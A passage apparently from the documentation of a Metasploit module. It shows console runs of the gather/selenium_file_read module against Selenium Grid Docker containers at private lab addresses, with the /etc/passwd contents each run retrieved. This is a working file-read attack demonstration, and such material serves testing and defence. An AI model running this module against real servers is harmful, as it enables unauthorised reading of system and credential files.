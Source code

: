 ```
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
seluser:x:1200:1201::/home/seluser:/bin/bash
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
rtkit:x:104:105:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:105:106:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin

[*] Auxiliary module execution completed
```

### selenium/standalone-firefox:4.6 installed with Docker on Ubuntu 24.04
```
msf6 auxiliary(gather/selenium_file_read) > run rhost=192.168.56.16 rport=4447
[*] Running module against 192.168.56.16
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Selenium Grid version 4.x detected and ready.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
seluser:x:1200:1201::/home/seluser:/bin/bash
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
rtkit:x:105:106:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:106:107:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin

[*] Auxiliary module execution completed
```
